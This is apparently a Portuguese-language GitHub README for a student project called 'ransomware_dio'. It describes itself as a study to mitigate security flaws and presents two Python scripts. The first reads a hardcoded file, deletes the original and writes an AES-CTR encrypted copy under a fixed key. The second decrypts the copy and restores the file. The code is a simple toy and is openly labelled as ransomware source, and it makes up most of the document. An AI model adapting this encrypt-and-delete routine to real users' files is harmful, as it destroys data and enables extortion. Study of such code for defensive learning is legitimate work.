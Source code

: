 # ransomware_dio
Ransonware criado à partir de Python

Neste trabalho foram utilizados 2 arquivos escritos em python e um arquivo txt que simula o arquivo criptogrado por um Hacker Mal Intencionado

Um arquivo criptogafa, ficando impossível a leitura do mesmo

O outro arquivo descriptogra e retorna o arquivo ao original

Abaixo temos o codigo principal dos arquivos de criptogria e descriptografia

Lembrando que este é um estudo para mitigar falhas de segurança e combater pessoas mal intencionadas

Utilizar conhecimentos Hacker de forma maliciosa, pode acarretar diversas consequências

________________________________

Criptografia

import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

___________________________________

Descriptografia

import os
import pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()

